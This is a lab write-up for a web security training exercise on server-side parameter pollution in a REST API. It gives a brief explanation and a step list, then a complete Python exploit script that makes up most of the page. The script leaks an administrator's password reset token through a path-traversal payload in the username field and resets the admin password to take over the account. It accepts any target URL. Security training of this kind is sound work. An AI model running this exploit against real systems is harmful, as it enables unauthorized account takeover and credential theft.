 ```yaml
---
title: 'API Lab 5'
description: 'Learn how server-side parameter pollution (SSPP) in REST APIs can lead to sensitive data exposure and full account takeover.'
---
```



## Exploiting server-side parameter pollution in a REST URL

<div style="text-align: justify;">
  In this lab, I explored how server-side parameter pollution (SSPP) can impact REST API endpoints. The vulnerability stemmed from how the server processed multiple parameters—particularly when using path traversal techniques in user-controlled input. By injecting a crafted payload into a form field, I was able to access internal object properties not intended for exposure. This led to the retrieval of the admin’s password reset token and ultimately a full account takeover.

  Additionally, the challenge reinforced the importance of inspecting JavaScript files used by the web application. One of the JS files revealed the internal API structure and helped uncover how parameters were handled by the backend, which was crucial for crafting the payload. It’s a reminder that client-side JavaScript can leak sensitive implementation details useful for attackers.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Visit the **"Forgot Password"** page and request a reset token.
- Revisit the page and inject a polluted path as the username: `../../v1/users/administrator/field/passwordResetToken#`.
- The server returns the reset token in the JSON response.
- Use the token to reset the admin password and take control of the account.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings (for labs or self-signed certs)
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy configuration
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """
    Check if Burp Suite is running by attempting a connection to the proxy.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def get_csrf_token(session, base_url):
    """
    Fetch CSRF token from the /forgot-password page.
    """
    try:
        res = session.get(f"{base_url}/forgot-password", verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Failed to fetch forgot-password page: {e}")
        sys.exit(1)

    soup = BeautifulSoup(res.text, 'html.parser')
    csrf_input = soup.find("input", {"name": "csrf"})
    
    if not csrf_input or not csrf_input.get("value"):
        print("[-] CSRF token not found on the page.")
        sys.exit(1)

    return csrf_input["value"]

def trigger_reset_token(session, base_url, csrf_token):
    """
    Trigger password reset token generation for 'administrator'.
    """
    data = {
        "csrf": csrf_token,
        "username": "administrator"
    }

    try:
        res = session.post(f"{base_url}/forgot-password", data=data, verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Failed to trigger reset token: {e}")
        sys.exit(1)

def exploit_sspp(session, base_url, csrf_token):
    """
    Exploit server-side parameter pollution to extract reset token from internal API.
    """
    payload = "../../v1/users/administrator/field/passwordResetToken%23"
    data = {
        "csrf": csrf_token,
        "username": payload
    }

    try:
        res = session.post(f"{base_url}/forgot-password", data=data, verify=False, proxies=proxies)
        res.raise_for_status()
        result = res.json()
        return result["result"]
    except (requests.RequestException, ValueError, KeyError) as e:
        print(f"[-] Failed to extract token via SSPP: {e}")
        print(f"[-] Raw response: {res.text}")
        sys.exit(1)

def reset_admin_password(session, base_url, token, csrf_token):
    """
    Use leaked token to reset admin password.
    """
    reset_url = f"{base_url}/forgot-password?passwordResetToken={token}"
    data = {
        "csrf": csrf_token,
        "passwordResetToken": token,
        "new-password-1": "Password@123",
        "new-password-2": "Password@123"
    }

    try:
        res = session.post(reset_url, data=data, verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Password reset failed: {e}")
        sys.exit(1)

    if "Password successfully changed" in res.text or res.status_code == 200:
        print("[+] Password reset successful!")
        print("[+] Use these credentials to log in:")
        print("    Username: administrator")
        print("    Password: Password@123")
    else:
        print("[-] Password reset response unexpected.")
        print(res.text)

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://target.com")
        sys.exit(1)

    base_url = sys.argv[1].strip()

    # Step 0: Ensure Burp Suite is running
    check_burp()

    # Step 1: Start session and get CSRF
    session = requests.Session()
    print("[*] Fetching CSRF token...")
    csrf = get_csrf_token(session, base_url)

    # Step 2: Trigger password reset to generate token
    print("[*] Triggering reset token generation...")
    trigger_reset_token(session, base_url, csrf)

    # Step 3: Re-fetch CSRF token
    print("[*] Re-fetching CSRF token...")
    csrf = get_csrf_token(session, base_url)

    # Step 4: Exploit to retrieve the token
    print("[*] Exploiting SSPP to leak reset token...")
    token = exploit_sspp(session, base_url, csrf)
    print(f"[+] Leaked reset token: {token}")

    # Step 5: Use the token to reset password
    print("[*] Attempting to reset admin password...")
    reset_admin_password(session, base_url, token, csrf)

if __name__ == "__main__":
    main()
```